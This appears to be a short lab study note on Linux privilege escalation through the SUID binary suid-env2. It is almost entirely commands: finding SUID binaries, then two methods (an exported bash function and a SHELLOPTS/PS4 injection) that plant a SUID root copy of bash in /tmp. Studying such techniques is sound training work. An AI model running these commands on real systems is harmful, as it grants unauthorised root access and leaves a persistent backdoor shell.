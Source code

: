 ***Detection***
[[Linux Privilege Escalation]]
Target's [[Linux]] machine:

- In command prompt type: 
```
find / -type f -perm -04000 -ls 2>/dev/null
```
- From the output, make note of all the SUID binaries.
- In command prompt type:
```
strings /usr/local/bin/suid-env2
```
- From the output, notice the functions used by the binary.

***Exploitation Method #1***
Target's machine 

- In command prompt type:
```
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
```
- In command prompt type:
```
export -f /usr/sbin/service
```
- In command prompt type: 
```
/usr/local/bin/suid-env2
```

***Exploitation Method #2***
- In command prompt type:
```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'
```

